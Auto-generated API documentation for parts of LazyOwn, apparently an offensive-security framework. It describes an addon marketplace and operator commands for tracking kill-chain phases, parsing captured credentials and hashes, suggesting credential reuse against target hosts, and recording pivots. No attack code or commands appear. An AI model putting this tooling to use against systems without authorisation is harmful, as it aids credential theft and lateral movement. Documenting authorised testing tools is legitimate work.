**File Doc:** *Interactive marketplace manager for LazyOwn lazyaddons, plugins, and tools.  Provides a curses-based TUI mirroring the Powerlevel10k-style configurator from ``banner_config.py``. The operator can browse, enable/disable, edit, and create lazyaddons, Lua plugins, and pwntomate tools from a single interface.  Design (SOLID):  - ``MarketplaceConfig`` centralises constants (keys, key codes, palette IDs). - ``MarketplaceSettings`` is the mutable state (enabled/disabled per addon). - ``AddonInfo`` describes a single addon from YAML/Lua/.tool on disk. - ``AddonRegistry`` scans ``lazyaddons/``, ``plugins/``, ``tools/`` and builds the canonical list. - ``MarketplaceConfigurator`` is the only piece bound to curses; tests can drive any registry behaviour without a TTY. - ``configure_marketplace_interactive`` is the public entry point.*

**Classes:**
- `MarketplaceConfig` (line 56) `class MarketplaceConfig` - *Centralised constants for the marketplace configurator.*
- `AddonInfo` (line 131) `class AddonInfo` - *Metadata for one addon on disk.*
- `AddonRegistry` (line 197) `class AddonRegistry` - *Scans lazyaddons/, plugins/, tools/, yara_rules/, nuclei-templates/ and builds the addon list.*
- `MarketplaceSettings` (line 349) `class MarketplaceSettings` - *Mutable marketplace state: which addons are enabled.*
- `MarketplaceConfigurator` (line 378) `class MarketplaceConfigurator` - *Curses-driven p10k-style wizard for marketplace management.*

**Functions:**
- `configure_marketplace_interactive` (line 751) `def configure_marketplace_interactive(config, start_tab)` - *Open the multi-tab curses wizard for marketplace management.

Args:
    config: Optional custom configuration.
    start_tab: Optional tab pre-selection ("lazyaddons", "plugins",
        "tools", "yara", "nuclei").

Returns ``None`` when the operator cancels or the environment cannot
host a curses session.

Returns:
    :class:`MarketplaceSettings` with the final state, or ``None``.*
- `_build_initial_settings` (line 774) `def _build_initial_settings(registry)`
- `marketplace_summary` (line 784) `def marketplace_summary(registry)` - *Return a text summary of enabled/disabled addons across all tabs.*

**Methods:**
- `from_yaml` (line 144) `def from_yaml(cls, path)`
- `toggle_enabled` (line 164) `def toggle_enabled(self)` - *Flip the enabled state on disk.*
- `set_enabled` (line 168) `def set_enabled(self, enabled)` - *Set the enabled state and persist to disk.*
- `save_yaml` (line 185) `def save_yaml(self, data)` - *Rewrite the YAML file with the given data dictionary.*
- `__init__` (line 220) `def __init__(self)`
- `_nuclei_dir` (line 223) `def _nuclei_dir(self)`
- `scan` (line 235) `def scan(self, tab)`
- `_scan_yara` (line 259) `def _scan_yara(self)`
- `_scan_nuclei` (line 278) `def _scan_nuclei(self)`
- `_parse_yara_meta` (line 307) `def _parse_yara_meta(path)`
- `_parse_nuclei_info` (line 319) `def _parse_nuclei_info(path)`
- `rescan` (line 334) `def rescan(self, tab)`
- `tab_order` (line 338) `def tab_order(self)`
- `tab_label` (line 341) `def tab_label(self, tab)`
- `tab_count` (line 344) `def tab_count(self, tab)`
- `is_enabled` (line 354) `def is_enabled(self, kind, name)`
- `toggle` (line 357) `def toggle(self, addon)`
- `enable_all` (line 367) `def enable_all(self, addons)`
- `disable_all` (line 372) `def disable_all(self, addons)`
- `__init__` (line 381) `def __init__(self, config, registry, initial)`
- `run` (line 395) `def run(self, start_tab)`
- `_tty_available` (line 408) `def _tty_available()`
- `_rows_for_tab` (line 411) `def _rows_for_tab(self, tab)`
- `_loop` (line 414) `def _loop(self, stdscr)`
- `_cycle_tab` (line 465) `def _cycle_tab(self, direction)`
- `_edit_addon` (line 470) `def _edit_addon(self, addon)`
- `_create_addon` (line 480) `def _create_addon(self, stdscr)`
- `_init_colors` (line 537) `def _init_colors(self)`
- `_render` (line 564) `def _render(self, stdscr, rows, cursor, offset)`
- `_draw_frame` (line 604) `def _draw_frame(self, stdscr, top, left, height, width)`
- `_draw_header` (line 618) `def _draw_header(self, stdscr, top, left, width)`
- `_draw_tabs` (line 641) `def _draw_tabs(self, stdscr, row_y, left, width)`
- `_draw_column_headers` (line 659) `def _draw_column_headers(self, stdscr, row_y, left, width, rows)`
- `_draw_row` (line 669) `def _draw_row(self, stdscr, row_y, left, width, addon, selected)`
- `_draw_preview` (line 692) `def _draw_preview(self, stdscr, top, left, width, addon)`
- `_draw_summary` (line 720) `def _draw_summary(self, stdscr, row_y, left, width, rows)`
- `_draw_footer` (line 732) `def _draw_footer(self, stdscr, row_y, left, width)`
- `_color` (line 742) `def _color(self, pair)`

#### `noise_verbs.py`
**Path:** `cli/noise_verbs.py`
**File Doc:** *Canonical non-actionable verb registry for post-command surfaces.  The inline hints, the unified tips engine, and the interactive chain prompt each skip a near-identical list of verbs that produce no engagement progress (help, history, navigation, and configuration commands). This module is the single source of truth for that vocabulary so the three surfaces can never drift apart again.  Each surface composes its own exported set from the shared base plus its surface-specific extras, keeping backwards-compatible names:  - ``cli.reactive_hints.SKIP_COMMANDS`` = base + graph hints extras - ``cli.tips_engine.SKIP_COMMANDS`` = base + tips extras - ``cli.chain_mode.CHAIN_SKIP_VERBS`` = base + chain extras*

*No symbols extracted*

#### `ops_commands.py`
**Path:** `cli/ops_commands.py`
**File Doc:** *Power-user operator commands: ctx, tgrep, phase, note, l00t, pivot, tasks, sitrep, scans.  All functions are pure (no side effects beyond filesystem reads/writes) and have no imports from lazyown.py or lazyc2.py so they can be unit-tested in isolation and reused from MCP tools.*

**Classes:**
- `LootEntry` (line 545) `class LootEntry` - *A single captured credential or hash parsed from a loot file.

Attributes:
    source: Basename of the file the entry was read from.
    kind: ``clelazyt`` for credentials*.txt, ``hash`` for hash*.txt.
    user: Username portion (text before the first colon), full length.
    secret: Password or hash portion (text after the first colon).*

**Functions:**
- `print_ctx` (line 74) `def print_ctx(payload, sessions_dir)` - *Print a single-line operator context summary.

Args:
    payload: Live params dict.
    sessions_dir: Path to sessions directory.*
- `tgrep` (line 115) `def tgrep(pattern)` - *Search past command outputs and session logs for ``pattern``.

Searches in order:
  1. ``sessions/_cli_transcript.jsonl`` (in-memory transcript with full output)
  2. ``sessions/LazyOwn_session_report.csv`` (command column)
  3. ``sessions/logs/`` text files

Args:
    pattern: Regular expression or plain string to search for.
    sessions_dir: Base sessions directory.
    limit: Maximum total hits to display.
    case_insensitive: Case-insensitive matching when True.*
- `_search_transcript_jsonl` (line 177) `def _search_transcript_jsonl(rx, hits, limit)`
- `_search_csv` (line 211) `def _search_csv(rx, hits, limit)`
- `_search_logs` (line 236) `def _search_logs(rx, hits, limit, sessions_dir)`
- `_highlight_match` (line 265) `def _highlight_match(line, rx)`
- `read_phase` (line 279) `def read_phase()` - *Return the current kill-chain phase from the unified killchain module.*
- `_phase_rank` (line 287) `def _phase_rank(phase)` - *Return the positional index of a phase in the kill chain.*
- `_engagement_phase_to_cli` (line 292) `def _engagement_phase_to_cli(phase_value)` - *Map a WorldModel EngagementPhase to a CLI PHASES value.*
- `_cli_phase_to_host_state` (line 297) `def _cli_phase_to_host_state(phase)` - *Map a CLI phase to a WorldModel HostState value.*
- `write_phase` (line 302) `def write_phase(phase)` - *Set the current kill-chain phase via the unified killchain module.

Delegates to ``KillChain.advance_phase`` which atomically writes
``world_model.json`` and advances all WorldModel hosts.

Args:
    phase: One of the PHASES values.

Returns:
    True on success, False if the phase name is invalid.*
- `print_phase` (line 317) `def print_phase()` - *Print the current phase and the full kill-chain progress bar.

Reads data from the unified killchain module and renders a rich
progress display.*
- `_render_progress_bar` (line 359) `def _render_progress_bar(ratio)` - *Return a fixed-width filled/empty block bar for ``ratio`` in [0, 1].*
- `_os_identified` (line 367) `def _os_identified(sessions_dir)` - *Return True when sessions/os.json records an active OS fingerprint.*
- `_glob_count` (line 375) `def _glob_count(sessions_dir, pattern)` - *Return the number of files under ``sessions_dir`` matching ``pattern``.*
- `_report_artifact_exists` (line 380) `def _report_artifact_exists(sessions_dir)` - *Return True when a generated report (report_*.md/.docx) is present.*
- `_count_pivots` (line 385) `def _count_pivots(sessions_dir)` - *Return the number of recorded pivot entries.*
- `phase_progress` (line 393) `def phase_progress(world, sessions_dir)` - *Return per-phase completion ratios from the unified kill-chain progress.

Delegates entirely to ``KillChain.get_progress`` — no filesystem heuristics,
no side-channel counts. The world model IS the progress.

Args:
    world: Parsed world_model.json document (unused; kept for backward compat).
    sessions_dir: Base sessions directory. Used to resolve the world_model path
        when it is a relative path under this directory.

Returns:
    A mapping of each :data:`PHASES` value to a completion ratio in [0, 1].*
- `_read_json` (line 425) `def _read_json(path)`
- `_write_json_atomic` (line 433) `def _write_json_atomic(path, data)`
- `_count_glob` (line 450) `def _count_glob(pattern)`
- `note_add` (line 468) `def note_add(text, rhost, phase)` - *Append a timestamped operator note to sessions/notes.jsonl.

Args:
    text: Free-form note text.
    rhost: Current target IP (attached as context).
    phase: Current kill-chain phase (attached as context).*
- `note_list` (line 493) `def note_list(rhost, limit)` - *Print recent operator notes, optionally filtered by rhost.

Args:
    rhost: When non-empty, only show notes for this target.
    limit: Maximum number of notes to display.*
- `gather_loot` (line 571) `def gather_loot(sessions_dir)` - *Parse every credentials*.txt and hash*.txt under ``sessions_dir``.

Each file is expected to hold one ``user:secret`` entry per line; blank
lines and ``#`` comments are skipped. This is the single source of truth
for loot parsing reused by show / search / reuse / mark.

Args:
    sessions_dir: Base sessions directory.

Returns:
    A list of :class:`LootEntry` in file then line order.*
- `loot_show` (line 614) `def loot_show(sessions_dir)` - *Print a unified table of all captured credentials and hashes.

Args:
    sessions_dir: Base sessions directory.*
- `_loot_provenance` (line 657) `def _loot_provenance(query, sessions_dir)` - *Find the first session-log row that mentions ``query``.

Args:
    query: Case-insensitive needle to search the command CSV for.
    sessions_dir: Base sessions directory.

Returns:
    ``{"command": ..., "ts": ...}`` for the first matching row, or
    ``None`` when the CSV is absent or holds no match.*
- `loot_search` (line 686) `def loot_search(query, sessions_dir)` - *Search captured loot for ``query`` across users and secrets.

Args:
    query: Case-insensitive substring matched against user and secret.
    sessions_dir: Base sessions directory.*
- `_cred_outcomes_for_host` (line 731) `def _cred_outcomes_for_host(world, host)` - *Return cred-node prefixes that worked / were rejected for ``host``.

Args:
    world: Parsed world_model.json document.
    host: Target host IP.

Returns:
    ``(worked, rejected)`` sets of ``cred:<hash>`` node identifiers that
    the network graph records as authenticating to / rejected by ``host``.*
- `_cred_node` (line 758) `def _cred_node(value)` - *Return the network-graph node id for a credential value.*
- `loot_reuse` (line 763) `def loot_reuse(rhost, sessions_dir)` - *Suggest captured credentials worth trying against ``rhost``.

Ranks credentials that have not yet been rejected by the target, favouring
clelazyt over hashes and credentials already confirmed elsewhere, and
prints ready-to-run authentication hints.

Args:
    rhost: Current target IP (from payload ``rhost``).
    sessions_dir: Base sessions directory.*
- `loot_graph` (line 847) `def loot_graph(sessions_dir)` - *Render the credential-centric view of the network graph.

Shows, per captured credential, the hosts it was harvested from, the hosts
it authenticated to, the hosts that rejected it, and candidate hosts.

Args:
    sessions_dir: Base sessions directory.*
- `resolve_cred_value` (line 917) `def resolve_cred_value(selector, entries)` - *Resolve a user/secret ``selector`` to a canonical credential value.

Args:
    selector: Username, secret, or full ``user:secret`` string.
    entries: Loot entries to resolve against (from :func:`gather_loot`).

Returns:
    The matching ``user:secret`` value, preferring an exact username match,
    then an exact value match, then the first substring match. ``None`` when
    nothing matches.*
- `loot_mark` (line 945) `def loot_mark(selector, outcome, host, sessions_dir)` - *Record that a credential worked or was rejected against ``host``.

Args:
    selector: Username/secret/value identifying the credential.
    outcome: ``worked`` or ``rejected``.
    host: Host the credential was tried against.
    sessions_dir: Base sessions directory.

Returns:
    True when an outcome edge was written, False on a usage/resolution error.*
- `pivot_add` (line 987) `def pivot_add(new_ip, via_ip, note)` - *Record a newly discovered pivot target.

Args:
    new_ip: IP of the newly reachable host.
    via_ip: IP of the compromised host that gave access (current rhost).
    note: Optional context (service, port, method).*
- `pivot_list` (line 1013) `def pivot_list()` - *Print the pivot chain discovered so far.*
- `_load_tasks` (line 1059) `def _load_tasks()`
- `_save_tasks` (line 1066) `def _save_tasks(tasks)`
- `tasks_list` (line 1070) `def tasks_list(status_filter, limit)` - *Print tasks from sessions/tasks.json.

Args:
    status_filter: 'active' (New+Started), 'all', or a specific status.
    limit: Maximum rows to display.*
- `tasks_add` (line 1125) `def tasks_add(title, operator)` - *Append a new task to sessions/tasks.json.

Args:
    title: Task description.
    operator: Who created it (default 'cli').*
- `tasks_done` (line 1146) `def tasks_done(task_id)` - *Mark a task as Done.

Args:
    task_id: The integer id of the task.

Returns:
    True if found and updated, False otherwise.*
- `tasks_start` (line 1166) `def tasks_start(task_id)` - *Mark a task as Started.

Args:
    task_id: The integer id of the task.

Returns:
    True if found and updated, False otherwise.*
- `scans_list` (line 1189) `def scans_list(rhost, sessions_dir)` - *List nmap scan files in sessions/, optionally filtered by rhost.

Reads the first lines of each .nmap file to extract open ports.

Args:
    rhost: When non-empty, only show scans for this target IP.
    sessions_dir: Path to sessions directory.*
- `sitrep` (line 1242) `def sitrep(payload, sessions_dir)` - *Print a unified operational situation report.

Aggregates: target info, phase/OS, scans found, loot captured, tasks
backlog, operator notes, pivot chain, world model hosts/vulns, and
the last lines of sessions/plan.txt when present.

Args:
    payload: Live params dict (from payload.json).
    sessions_dir: Path to the sessions directory.*
- `_print_next_steps` (line 1386) `def _print_next_steps(rhost, phase, has_scan, cred_count, n_tasks_new, n_hosts)` - *Print 2-4 contextual next-step suggestions based on engagement state.

Args:
    rhost: Active target IP (or "—" if unset).
    phase: Current phase string (lowercase).
    has_scan: True when a nmap scan file exists for rhost.
    cred_count: Number of credential lines captured.
    n_tasks_new: Number of tasks in New status.
    n_hosts: Number of hosts in world model.*
- `_render_steps` (line 1448) `def _render_steps(steps)`
- `_read_plan` (line 1453) `def _read_plan()`
- `_human_age` (line 1474) `def _human_age(seconds)`
- `_human_size` (line 1484) `def _human_size(n)`
- `_bucket` (line 861) `def _bucket(node)`
- `_host_label` (line 864) `def _host_label(node)`
- `_join` (line 901) `def _join(items)`

**Methods:**
- `value` (line 561) `def value(self)` - *Return the canonical ``user:secret`` credential value.

Returns:
    ``user:secret`` when a secret is present, otherwise just ``user``.
    Matches the value format stored by ``modules.world_model``.*

#### `output_mode.py`
**Path:** `cli/output_mode.py`
**File Doc:** *Structured output modes and dry-run rendering for CLI commands.  Piped automation needs JSON without ANSI. Operators skimming logs need plain text. Sensitive engagements need to preview the exact shell line before it runs. This module centralizes all three so every command parses the same flags and formats the same way.*

**Classes:**
- `OutputModeConfig` (line 20) `class OutputModeConfig` - *Centralized knobs for output formatting.*
- `OutputMode` (line 33) `class OutputMode` - *Parsed output flags for one command invocation.*

**Functions:**
- `parse_output_flags` (line 43) `def parse_output_flags(args, config)` - *Split output control flags from positional command arguments.

Args:
    args: Tokenised argument list.
    config: Flag spellings.

Returns:
    OutputMode with flags set and remaining tokens in rest.*
- `strip_ansi` (line 65) `def strip_ansi(text)` - *Remove ANSI escape sequences from text.

Args:
    text: Possibly coloured string.

Returns:
    Plain string with escapes removed.*
- `format_output` (line 77) `def format_output(data, mode)` - *Render data according to the parsed output mode.

Args:
    data: Mapping, sequence or preformatted string.
    mode: Parsed flags from parse_output_flags.

Returns:
    JSON document when as_json, ANSI-stripped text when plain,
    otherwise the string form unchanged.*
- `dry_run_line` (line 98) `def dry_run_line(command)` - *Render the exact shell line that would run without running it.

Args:
    command: Shell line preview.

Returns:
    Single tagged line.*

#### `palette.py`
**Path:** `cli/palette.py`
**File Doc:** *Read-only loader for ``cli/command_index.json``.  The CLI palette command, the C2 ``/palette`` endpoint and the MCP ``lazyown_palette`` tool all consume the same on-disk JSON document generated by ``scripts/build_command_index.py``. This module exposes a tiny, zero-dependency API so each surface stays in sync.  The loader is deliberately minimal: it parses the JSON once per process, caches the result, and offers ergonomic filters. The catalogue is treated as data — never mutated in place — so callers can safely share the cached object across threads.*

**Classes:**
- `CommandIndexError` (line 25) `class CommandIndexError(RuntimeError)` - *Raised when the on-disk index is missing or malformed.*

**Functions:**
- `load_index` (line 30) `def load_index(path)` - *Return the parsed catalogue as a dict.

Args:
    path: Override the default index location. ``None`` uses
        :data:`DEFAULT_INDEX_PATH`.

Returns:
    The full document with keys ``schema_version``, ``totals``,
    ``commands``, ``phase_to_commands`` and ``category_to_commands``.

Raises:
    CommandIndexError: when the file is missing or unparseable.*
- `all_commands` (line 55) `def all_commands()` - *Return every command entry, sorted by name.

Args:
    include_duplicates: When ``False`` (default), shadowed duplicate
        definitions are filtered out — only the canonical entry remains
        for each name. Set to ``True`` to inspect the raw method-level
        list (useful for the ``/duplicates`` audit view).*
- `all_phases` (line 72) `def all_phases()` - *Return the sorted list of phase identifiers present in the index.*
- `all_categories` (line 77) `def all_categories()` - *Return the sorted list of cmd2 category labels present in the index.*
- `filter_by_phase` (line 82) `def filter_by_phase(phase)` - *Return command entries whose ``phase`` matches ``phase``.

Unknown phases yield an empty list instead of raising — the palette UI
is meant to be tolerant.*
- `filter_by_category` (line 92) `def filter_by_category(category)` - *Return command entries with the given cmd2 category label.*
- `search` (line 97) `def search(query)` - *Substring search over ``name`` and ``summary`` (case-insensitive).

Args:
    query: Free-form search term. An empty string returns the full list
        (capped by ``limit`` if provided).
    limit: Optional cap on the result count.*
- `get` (line 114) `def get(name)` - *Return the canonical entry for ``name`` or ``None`` if unknown.*
- `duplicates` (line 125) `def duplicates()` - *Return the duplicate-method audit list as stored in the index.*
- `totals` (line 130) `def totals()` - *Return the ``totals`` block (counts of methods, unique names, ...).*

#### `palette_command.py`
**Path:** `cli/palette_command.py`
**File Doc:** *Pure logic for the operator-facing ``palette`` command.  The CLI ``do_palette`` method on :class:`LazyOwnShell`, the C2 ``/palette`` endpoint and the MCP ``lazyown_palette`` tool all share the same parsing, filtering and rendering pipeline implemented here. The module deliberately exposes only deterministic, side-effect-free helpers that take a parsed command index (a plain ``dict``) and return strings or structured rows, so every consumer can render with its own colour scheme or transport.  Design constraints driving the shape of this module:  - Single Responsibility — three small classes split the work: argument parsing, query routing, output rendering. - Open/Closed — adding a new render mode means adding a method to :class:`PaletteRenderer`; the dispatcher in :func:`render` does not have to change beyond a one-line entry. - Dependency Inversion — every entry point accepts an ``index`` argument rather than reading the JSON from disk so callers can supply fixtures or alternate sources (in-memory builds, an MCP-cached snapshot, etc.). - No magic values — every threshold, separator and label is a field of :class:`PaletteRenderConfig`, which the operator may override per call.*

**Classes:**
- `PaletteMode` (line 33) `class PaletteMode(Enum)` - *High-level routing modes for a parsed ``palette`` invocation.*
- `PaletteRenderConfig` (line 44) `class PaletteRenderConfig` - *Centralised constants for parser, router and renderer.

The defaults below are the only place where palette UX strings,
separators and limits live. ``frozen=True`` prevents accidental mutation
by surface-specific consumers; pass a fresh instance to override.*
- `PaletteArgs` (line 123) `class PaletteArgs` - *Parsed result of a single ``palette`` invocation.*
- `PaletteArgumentParser` (line 132) `class PaletteArgumentParser` - *Translate a raw command line into :class:`PaletteArgs`.

Routing rules (deterministic, in declaration order):

1. No tokens: :attr:`PaletteMode.OVERVIEW`.
2. ``--search <query>`` flag: :attr:`PaletteMode.SEARCH`.
3. ``--info <name>`` flag: :attr:`PaletteMode.DETAIL`.
4. Single token that matches a known phase: :attr:`PaletteMode.PHASE`.
5. Single token that does not match a phase: :attr:`PaletteMode.SEARCH`
   with the token as ``query``.
6. Two tokens with first matching a known phase: :attr:`PaletteMode.PHASE`
   with the second token as ``query``.
7. Anything else: :attr:`PaletteMode.OVERVIEW` (the renderer falls back
   to a help-style listing).*
- `PaletteIndexQuery` (line 184) `class PaletteIndexQuery` - *Read-only view over the command index document.

Wraps the JSON structure produced by ``scripts.build_command_index`` so
callers do not depend on its concrete keys. Every method returns plain
Python primitives (lists/dicts) — never references into the underlying
document — so consumers can safely sort or extend the results.*
- `PaletteRenderer` (line 277) `class PaletteRenderer` - *Format query results as plain text, ready to be printed.

Each ``render_*`` method takes already-filtered data and returns a
multi-line string. The renderer never queries the index directly so the
same instance can be reused across surfaces (CLI, web, MCP).*
- `PaletteJsonResult` (line 487) `class PaletteJsonResult` - *Structured output of :class:`PaletteJsonRenderer` and :func:`render_json`.

Consumers (the MCP tool, the C2 web client, automation scripts) read
fields directly. The shape never includes raw helper text — only data —
so each surface can localise or re-style without parsing strings.*
- `PaletteJsonRenderer` (line 514) `class PaletteJsonRenderer` - *Produce a :class:`PaletteJsonResult` from a parsed query.

Mirrors :class:`PaletteRenderer` so adding a new ``PaletteMode`` requires
one method here and one method on the text renderer; the dispatcher in
:func:`render_json` does not have to change beyond a one-line entry.*
- `PaletteViewConfig` (line 605) `class PaletteViewConfig` - *Centralised constants for the C2 web view payload.

Kept separate from :class:`PaletteRenderConfig` so a deployment may
relabel the web UI without touching the CLI rendering strings.*
- `CompletionPosition` (line 737) `class CompletionPosition` - *Tokenisation snapshot produced by :class:`PaletteCompleter`.*
- `PaletteCompleter` (line 744) `class PaletteCompleter` - *Data-driven tab completion for ``palette``.

Position rules:

- First positional: phase identifiers and the verbs ``--search`` and
  ``--info``.
- Second positional after a phase: command names belonging to that phase.
- Second positional after ``--info``: every canonical command name.*

**Functions:**
- `_filter_phase_rows` (line 395) `def _filter_phase_rows(rows, query)` - *Filter ``rows`` (already in a phase) by a free-text query.

Args:
    rows: Command entries belonging to a single phase.
    query: Free-form term searched against ``name`` and ``summary``.
        ``None`` or empty returns ``rows`` unchanged.*
- `_enrich_detail_entry` (line 409) `def _enrich_detail_entry(entry)` - *Best-effort graph and telemetry enrichment for a single detail entry.

Imports :mod:`cli.palette_graph` and :mod:`cli.palette_telemetry` lazily
so the palette stays usable on hosts that have never run graphify or
invoked any command yet — every missing artefact silently degrades to
no enrichment without breaking the renderer contract.*
- `render` (line 447) `def render(index, line)` - *Top-level entry point used by :class:`LazyOwnShell.do_palette`.

Args:
    index: The parsed command-index document (already loaded).
    line: The raw text passed to ``do_palette``.
    config: Optional rendering configuration override. ``None`` uses the
        module default :class:`PaletteRenderConfig`.

Returns:
    A ready-to-print multi-line string.*
- `render_json` (line 566) `def render_json(index, line)` - *Structured-data variant of :func:`render`.

Args:
    index: The parsed command-index document.
    line: The raw text passed to the underlying surface.
    config: Optional configuration override.

Returns:
    A serialisable ``dict`` matching :class:`PaletteJsonResult.to_dict`.*
- `build_palette_view` (line 619) `def build_palette_view(index)` - *Assemble the template context consumed by the C2 ``/palette`` view.

The shape is intentionally flat and JSON-serialisable so the template can
embed the full payload as a ``<script type="application/json">`` block
and the client-side JavaScript can filter without round-tripping.

Args:
    index: The parsed command-index document.
    config: Optional rendering-config override (used to expose the flag
        strings the UI surfaces as filter chips).
    view_config: Optional view-config override.*
- `_enrich_commands_for_view` (line 665) `def _enrich_commands_for_view(rows)` - *Best-effort graph and telemetry enrichment for a list of view rows.

Behaves identically to :func:`_enrich_detail_entry` but in batch — and
silently degrades to a copy of the input when graphify or telemetry data
is absent so the C2 view never blocks on a missing artefact.*
- `_ensure_neighbour_keys` (line 689) `def _ensure_neighbour_keys(rows)` - *Guarantee every view row carries ``calls``/``related`` keys.

When neither graphify nor telemetry data is present the enrichment
passes rows through untouched, so this normaliser adds empty neighbour
lists to keep the view payload schema stable — matching the guarantee
``render_json`` detail mode already makes for MCP consumers.

Args:
    rows: Command view rows, possibly missing neighbour keys.

Returns:
    A list of row dicts each carrying ``calls`` and ``related`` keys.*
- `_load_recent_commands` (line 712) `def _load_recent_commands()` - *Return the most-recently invoked commands or an empty list on failure.

Used by :func:`build_palette_view` to populate the Cmd+K overlay's
"Recent" section without tying the function to the telemetry import.*
- `_ordered_phase_ids` (line 728) `def _ordered_phase_ids(config, phase_counts)` - *Return phase identifiers in display order honouring the config order.*

**Methods:**
- `truncate_summary` (line 107) `def truncate_summary(self, summary)` - *Trim ``summary`` to :attr:`summary_max_chars` with marker suffix.

Args:
    summary: The raw summary string from the command index.

Returns:
    A safe single-line representation; empty string when ``summary``
    is falsy.*
- `__init__` (line 149) `def __init__(self, config)`
- `parse` (line 152) `def parse(self, line)` - *Return a :class:`PaletteArgs` for ``line``.

Args:
    line: The raw text passed to ``do_palette`` (already stripped of
        the leading ``palette`` verb by cmd2).
    known_phases: Iterable of phase identifiers from the command
        index — used to disambiguate single-token invocations.*
- `__init__` (line 193) `def __init__(self, index)`
- `commands` (line 197) `def commands(self)` - *Return canonical (non-duplicate) command entries.*
- `phases` (line 203) `def phases(self)` - *Return the sorted list of phase identifiers in the index.*
- `phase_counts` (line 208) `def phase_counts(self)` - *Return ``{phase: command_count}`` for every phase in the index.*
- `in_phase` (line 213) `def in_phase(self, phase)` - *Return commands whose ``phase`` matches ``phase`` (case-insensitive).*
- `search` (line 218) `def search(self, query)` - *Substring search over ``name`` and ``summary`` (case-insensitive).

Args:
    query: Free-form search term.
    limit: Maximum number of rows to return; values below 1 yield an
        empty list.*
- `detail` (line 234) `def detail(self, target)` - *Return the canonical entry for ``target`` or ``None``.

Accepts both ``do_assign`` and ``assign`` forms.*
- `next_phase` (line 249) `def next_phase(self, current)` - *Return the phase that comes after ``current`` in ``ordering``.

Args:
    current: Reference phase. ``None`` returns the first phase that
        is present in both ``ordering`` and the index.
    ordering: The kill-chain ordering — typically
        :attr:`PaletteRenderConfig.overview_phase_order`.

Returns:
    The next phase identifier present in the index, or ``None`` when
    ``current`` is the final configured phase.*
- `__init__` (line 285) `def __init__(self, config)`
- `render_overview` (line 288) `def render_overview(self, phase_counts)` - *Format the multi-phase overview table.*
- `render_phase` (line 304) `def render_phase(self, phase, rows)` - *Format a phase listing of ``(name, summary)`` pairs.*
- `render_search` (line 312) `def render_search(self, query, rows)` - *Format the cross-phase search result table.*
- `render_detail` (line 320) `def render_detail(self, entry)` - *Format the detail view for a single command entry.

When ``entry`` carries graph-derived ``calls`` or ``related`` keys
(attached by :func:`cli.palette_graph.enrich_detail`), those lists
appear as additional rows so operators can see what the command
actually invokes and which other commands work like it.*
- `render_next` (line 360) `def render_next(self, phase, rows)` - *Format the recommended-next-phase listing.*
- `_format_neighbours` (line 370) `def _format_neighbours(self, values)` - *Join graph-derived neighbour labels with the configured separator.*
- `_ordered_phases` (line 376) `def _ordered_phases(self, phase_counts)`
- `_format_name_summary_table` (line 383) `def _format_name_summary_table(self, header, rows)`
- `to_dict` (line 502) `def to_dict(self)` - *Serialise to a plain ``dict`` suitable for ``json.dumps``.*
- `__init__` (line 522) `def __init__(self, config)`
- `render_overview` (line 525) `def render_overview(self, phase_counts)` - *Build a result document for overview mode.*
- `render_phase` (line 532) `def render_phase(self, phase, query, rows)` - *Build a result document for phase mode.*
- `render_search` (line 541) `def render_search(self, query, rows)` - *Build a result document for search mode.*
- `render_detail` (line 549) `def render_detail(self, target, entry)` - *Build a result document for detail mode.*
- `render_next` (line 557) `def render_next(self, phase, rows)` - *Build a result document for next-phase mode.*
- `__init__` (line 755) `def __init__(self, config)`
- `complete` (line 758) `def complete(self, text, line, endidx, index)` - *Return tab-completion candidates given the editor state.*
- `_tokenise` (line 784) `def _tokenise(self, line, endidx)`
- `_filter_prefix` (line 797) `def _filter_prefix(candidates, text)`

#### `palette_graph.py`
**Path:** `cli/palette_graph.py`
**File Doc:** *Graph-aware neighbour lookups for the operator command palette.  The graphify export at :file:`graphify-out/graph_lazyown.json` captures the call graph of every ``do_*`` command together with its helper functions and classes. This module reads that artefact once per process and exposes a tiny read-only API so the palette CLI, the C2 web view and the MCP tool can all attach the same "what does this command actually do" / "what other commands work like this one" hints to a detail view.  Design constraints driving the shape of this module:  - Single Responsibility — :class:`GraphIndex` only loads and caches; pure functions like :func:`callees`, :func:`related_commands` and :func:`enrich_detail` translate it into palette-friendly shapes. - Open/Closed — every threshold, edge label and limit lives on :class:`GraphLookupConfig`; new neighbour types mean adding a function, not editing existing call sites. - Dependency Inversion — every public entry point accepts the parsed graph document, never reads it from disk on its own. Callers wire the loader through :func:`load_graph` so tests can inject fixtures. - Sad path is a no-op. A missing or malformed graph file degrades to empty results so the palette stays usable on hosts that never ran graphify.*

**Classes:**
- `GraphIndexError` (line 39) `class GraphIndexError(RuntimeError)` - *Raised when the graphify export is missing or malformed.*
- `GraphLookupConfig` (line 44) `class GraphLookupConfig` - *Centralised constants for graph-driven palette enrichment.

Every literal that affects neighbour selection lives here so behaviour is
tunable without touching call sites. ``frozen=True`` prevents accidental
mutation by per-surface consumers.*
- `GraphIndex` (line 74) `class GraphIndex` - *Read-only adjacency view derived from the graphify document.

Attributes:
    adjacency: ``{node_id: [(other_id, relation, confidence), ...]}``
        — symmetric, deduplicated edge list.
    node_labels: ``{node_id: label}`` for every node in the graph.
    command_to_node: ``{do_name_without_parens: node_id}`` resolver for
        command lookups.*

**Functions:**
- `_looks_like_command_label` (line 63) `def _looks_like_command_label(label)` - *Return ``True`` for graph labels that name a ``do_*`` command.*
- `_command_name_from_label` (line 68) `def _command_name_from_label(label)` - *Strip the trailing ``()`` from a callable graph label.*
- `_build_adjacency` (line 90) `def _build_adjacency(document)` - *Translate a graphify JSON document into :class:`GraphIndex`.*
- `load_graph` (line 127) `def load_graph(path)` - *Return the parsed graph index, cached per resolved path.

Args:
    path: Override the default graph location. ``None`` uses
        :data:`DEFAULT_GRAPH_PATH`.

Returns:
    A :class:`GraphIndex`. When the file is missing or invalid the
    function raises :class:`GraphIndexError`; callers that want graceful
    degradation should use :func:`safe_load_graph` instead.*
- `safe_load_graph` (line 149) `def safe_load_graph(path)` - *Best-effort variant of :func:`load_graph`.

Returns ``None`` instead of raising so the palette stays usable on hosts
that have never run graphify.*
- `_filter_neighbours` (line 161) `def _filter_neighbours(neighbours)` - *Filter raw neighbour tuples by relation and confidence policy.*
- `callees` (line 179) `def callees(graph, command_name)` - *Return helper-function labels invoked by ``command_name``.

Args:
    graph: The loaded graph index (or ``None``; in which case the result
        is an empty list).
    command_name: A ``do_*`` command name with or without the ``do_``
        prefix.
    config: Optional override for the lookup config.

Returns:
    At most :attr:`GraphLookupConfig.callee_limit` distinct labels,
    sorted alphabetically. Internal noise such as ``.cmd()`` is excluded.*
